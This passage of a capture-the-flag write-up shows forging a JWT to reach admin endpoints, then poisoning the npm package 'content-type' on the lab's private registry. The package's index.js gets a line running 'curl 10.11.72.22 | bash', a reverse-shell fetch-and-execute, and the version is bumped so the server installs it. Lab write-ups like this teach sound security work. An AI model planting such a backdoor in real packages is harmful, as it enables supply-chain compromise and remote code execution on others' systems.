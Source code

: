 Now, using the private key we generated, we sign a **JWT** with `{"username": "mcskidy-adm"}` as the payload.

![Burp Sign Jwt](burp_sign_jwt.webp){: width="1000" height="500"}

After that, using the signed **JWT** with the `Authorization` header, we can see that we are now able to authenticate and access the endpoints on the servers.

![Web 300 Authenticaed](web_3000_authenticated.webp){: width="1000" height="500" }

Since we are able to reinstall **Node.js** modules and restart a service using this server, and seeing that the `admdev` server uses the **Node.js** registry at `http://npm-registry.bestfestivalcompany.thm:4873/` for the modules, we can use this to hijack a module it uses to run commands on it.

```console
$ cat admdev/.npmrc
registry=http://npm-registry.bestfestivalcompany.thm:4873/
```

For this, first, let's find a package to hijack. From the source code, we can see that it only imports the `express` module.

```console
$ cat admdev/index.js
const express = require('express');
...
```

But checking the dependencies for `express`, we can find many other modules, and since it does not specify an exact version for the `content-type` module, let's go with that.

![Express Dependencies](express_dependencies.webp){: width="1200" height="600" }

First, downloading the module and extracting the archive.

![Web Npmregistry Content Type](web_npmregistry_content_type.webp){: width="1200" height="600"}

After that, adding our reverse shell payload to the `index.js` file as such:

```console
$ head index.js
/*!
 * content-type
 * Copyright(c) 2015 Douglas Christopher Wilson
 * MIT Licensed
 */

'use strict'

const { execSync } = require('child_process');
execSync("curl 10.11.72.22 | bash");
```

We also modify the `package.json` file and increase the version by modifying the value for `version`.

```console
$ head package.json
{
  "name": "content-type",
  "description": "Create and parse HTTP Content-Type header",
  "version": "1.0.6",
  "author": "Douglas Christopher Wilson <doug@somethingdoug.com>",
  "license": "MIT",
  "keywords": [
    "content-type",
    "http",
    "req",
```
